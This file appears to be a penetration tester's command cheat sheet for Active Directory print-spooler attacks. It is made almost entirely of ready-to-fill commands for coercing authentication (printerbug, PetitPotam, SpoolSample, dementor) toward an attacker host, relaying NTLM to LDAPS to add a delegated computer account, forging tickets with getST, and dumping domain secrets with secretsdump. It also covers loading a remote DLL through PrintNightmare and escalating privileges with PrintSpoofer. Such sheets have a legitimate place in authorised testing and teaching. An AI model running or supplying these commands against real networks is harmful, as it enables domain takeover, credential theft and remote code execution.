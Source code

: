 # Printerbug and Petitpotam

% printerbug, petitpotam, Active directory

## Finding Spooler services listening
#assessment/AD  #target/remote #cat/RECON 
```
rpcdump.py <domain>/<user>:'<password>'@<dc> | grep MS-RPRN
```

## Finding Spooler services anonymous
#assessment/AD  #target/remote #cat/RECON 
```
rpcdump.py <dc> | grep -A 6 MS-RPRN
```

## dementor
#assessment/AD  #target/remote #cat/ATTACK/EXPLOIT 
https://github.com/NotMedic/NetNTLMtoSilverTicket

```
dementor.py -d <domain> -u <user> -p <password> <attacker_ip> <dc2>
```

## printerbug
#assessment/AD  #target/remote #cat/ATTACK/EXPLOIT 
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

```
printerbug.py '<domain>/<user>:<password>'@<ip> <attacker_ip>
```

## webclientservicescanner
#assessment/AD  #target/remote #cat/RECON
https://github.com/Hackndo/WebclientServiceScanner
```
webclientservicescanner '<domain>/<user>:<password>'@<ip_range>
```

## PetitPotam
#assessment/AD  #target/remote #cat/ATTACK/EXPLOIT
https://github.com/topotam/PetitPotam
```
PetitPotam.py -u <user> -p '<password>' -d <domain> <listener> <target>
```

## ntlmrelayx add computer
#assessment/AD  #target/remote #cat/ATTACK/MITM 
```
ntlmrelayx -t ldaps://<dc1> -smb2support --remove-mic --add-computer <computer_name> <computer_password> --delegate-access
```

## use silver ticket
#assessment/AD  #target/remote #cat/ATTACK/EXPLOIT 
```
getST.py -spn host/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain>/<computer_name>$:<computer_password>'
```

## secret dump with kerberos
#assessment/AD  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump -k <dc>
```

## PrintNightmare
#assessment/AD  #target/remote #cat/ATTACK/EXPLOIT
https://github.com/cube0x0/CVE-2021-1675

- windows server 2019
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL\x00"
- windows server 2016          
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_db4f0d0030e708f4\\Amd64\\UNIDRV.DLL\x00"

Need a real smb server (not work with the impacket server)

```
CVE-2021-1675.py <domain>/<user>:<password>@<target_ip> '\\<attacker_ip>\<share_name>\<dll_name|inject>.dll'
```

## Printspoofer privesc
#assessment/AD  #target/local #cat/ATTACK/EXPLOIT

https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/PrintSpoofer.NET

```
PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss <launch_cmd>
```

## Spoolsample launch pipe
#assessment/AD  #target/remote #cat/ATTACK/EXPLOIT
```
SpoolSample.exe <target_hostname> <target_hostname>/pipe/test
```

## Spoolsample
#assessment/AD  #target/remote #cat/ATTACK/EXPLOIT

coherced authentitication 

```
SpoolSample.exe <target_server> <capture_server> 
```


= user : anonymous
= pass : anonymous
= computer_name : arsenal
= dc : DC01.domain.local
= dc1 : DC01.domain.local
= dc2 : DC02.domain.local
= computer_password : 123soleil
= ip_range : 192.168.1.0/24
